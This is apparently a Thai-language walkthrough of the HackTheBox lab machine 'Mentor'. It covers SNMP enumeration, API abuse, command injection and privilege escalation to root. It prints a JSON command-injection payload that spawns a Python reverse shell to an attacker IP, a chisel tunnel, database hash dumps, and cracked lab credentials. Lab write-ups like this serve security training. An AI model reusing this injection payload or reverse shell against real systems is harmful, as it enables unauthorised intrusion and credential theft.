 # Recon

```bash
sudo ../Tools/scan.sh 10.10.11.193
[sudo] password for kali: 
[*] Running rustscan...
[*] Running nmap on ports: 22,80
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-26 22:10 EDT
Nmap scan report for 10.10.11.193
Host is up (0.059s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 c7:3b:fc:3c:f9:ce:ee:8b:48:18:d5:d1:af:8e:c2:bb (ECDSA)
|_  256 44:40:08:4c:0e:cb:d4:f1:8e:7e:ed:a8:5c:68:a4:f7 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://mentorquotes.htb/
Service Info: Host: mentorquotes.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.03 seconds

```
## API Fuzzing 
```bash
ffuf -u http://10.10.11.193 -H "Host: FUZZ.mentorquotes.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fw 18 -mc all
```
## API Enum
```bash
feroxbuster -u http://api.mentorquotes.htb --no-recursion --methods GET,POST
```

หากเราตรวจสอบเข้าไปที่ /admin จะพบว่ามี /check กับ /backup อยู่ในนั้นด้วย 

![[Challenge/HTB Challenge/Mentro/IMG/009.png]]

![[Challenge/HTB Challenge/Mentro/IMG/003.png]]



ข้อมูลข้างต้นจาก API ทำให้เราทราบว่ามีการเรียกใช้งารผ่าน API โดยมีชื่อผู้ใช้ james ซึ่งหากสำรวจจะยังไม่พบอะไรที่ไปต่อได้ 



## SNMP enum

```bash
snmpwalk -v2c -c public 10.10.11.193
./snmpbrute.py -t 10.10.11.193
```
![[Challenge/HTB Challenge/Mentro/IMG/001.png]]

จากข้อมูลด้านบนทำให้เราเห็น community string อีกตัวคือ "internal" ซึ่งเราสามารถใช้ snmp-walk ต่อได้



```bash
time snmpwalk -v2c -c internal 10.10.11.193
time snmpbulkwalk -v2c -c internal 10.10.11.193 ## ไวกว่า 
```

![[Challenge/HTB Challenge/Mentro/IMG/002.png]]

```credential
james:kj23sadkj123as0-d213
```

จากนั้นทดสอบเข้าด้วยบัญชีผู้ใช้ที่ได้ ตามภาพด้านล่าง จะพบว่าสามารถเข้าใช้งานได้ โดยระบบได้ตอบกลับมาเป็น jwt token 
![[Challenge/HTB Challenge/Mentro/IMG/004.png]]

ทดสอบใส่ jwt token ไปที่ /users เพื่อตรวจสอบ users ภายในระบบ จะพบว่ามี 2 users 
![[Challenge/HTB Challenge/Mentro/IMG/005.png]]
เราสามารถตรวจสอบ users ได้โดยใส่ user id ของแต่ละคน
![[Challenge/HTB Challenge/Mentro/IMG/006.png]]

จากนั้นทดสอบการทำงานของ /quotes/ เราจะเริ่มได้ข้อมูลของบทความต่างๆ 

![[Challenge/HTB Challenge/Mentro/IMG/007.png]]

หากทดสอบหน้า admin เราจะไม่สามารถเข้าถึงได้ อีกทั้งใน Swagger doc ยังไม่มีการเขียนไว้

![[Challenge/HTB Challenge/Mentro/IMG/008.png]]

ทดสอบ POST ไปที่ /admin/backup จะพบว่ามีการตอบกลับมา
![[Challenge/HTB Challenge/Mentro/IMG/011.png]]
โดยจากข้อมูลได้ระบุว่าให้เราใส่ body ไปด้วย (path) โดยหากทดสอบใส่ parameter เข้าไปจะพบว่ามีการตอบกลับมาว่า Done

![[Challenge/HTB Challenge/Mentro/IMG/012.png]]

## Command Injection 
ทดสอบ Command Injection ไปในนั้น 
![[Challenge/HTB Challenge/Mentro/IMG/015.png]]

ฝั่ง kali linux จะทำการรับด้วย tcpdump 
```bash
sudo tcpdump -ni tun0 icmp
```

![[Challenge/HTB Challenge/Mentro/IMG/014.png]]

## Shell as svc 

```http
{"path": ";python -c 'import os,pty,socket;s=socket.socket();s.connect((\"10.10.14.34\",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn(\"sh\")';"}
```

![[Challenge/HTB Challenge/Mentro/IMG/016.png]]

## Chisel Tunnel 

เราจำเป็นจะต้องสร้าง tunnel สำหรับเข้าไปที่ postgresql 

```bash
# Attacker 
chisel server -p 8000 --reverse
# Target 
./chisel_linx64 client 10.10.14.34:8000 R:5432:172.22.0.1:5432
```

## Connect to DB

```bash
psql -h 127.0.0.1 -p 5432 -U postgres
# Password: postgres 
```


```sql
\list
\connect mentorquotes_db 
\dt 

mentorquotes_db=# \dt
          List of relations
 Schema |   Name   | Type  |  Owner   
--------+----------+-------+----------
 public | cmd_exec | table | postgres
 public | quotes   | table | postgres
 public | users    | table | postgres
(3 rows)

mentorquotes_db=# select * from cmd_exec;
                               cmd_output                               
------------------------------------------------------------------------
 uid=999(postgres) gid=999(postgres) groups=999(postgres),101(ssl-cert)
(1 row)

mentorquotes_db=# select * from users;
 id |         email          |  username   |             password             
----+------------------------+-------------+----------------------------------
  1 | james@mentorquotes.htb | james       | 7ccdcd8c05b59add9c198d492b36a503
  2 | svc@mentorquotes.htb   | service_acc | 53f22d0dfa10dce7e29cd31f4f953fd8
(2 rows)

mentorquotes_db=# 

```

## MD5 Crack 

![[Challenge/HTB Challenge/Mentro/IMG/017.png]]


svc:123meunomeeivani

## Shell as svc 

```bash
ssh svc@10.10.11.193
```

## SNMP config Enum 

```bash
svc@mentor:/etc/snmp$ cat snmpd.conf 
includeDir /etc/snmp/snmpd.conf.d


createUser bootstrap MD5 SuperSecurePassword123__ DES
rouser bootstrap priv

com2sec AllUser default internal
group AllGroup v2c AllUser
#view SystemView included .1.3.6.1.2.1.1
view SystemView included .1.3.6.1.2.1.25.1.1
view AllView included .1
access AllGroup "" any noauth exact AllView none none
```

เราสามารถนำ credential login ด้วย james ได้ และหาก sudo -l ก้อจะเห็นได้ว่าสามารถใช้ /bin/sh ด้วยสิทธิ root ได้เลย 
![[Challenge/HTB Challenge/Mentro/IMG/018.png]]

# PWNED 
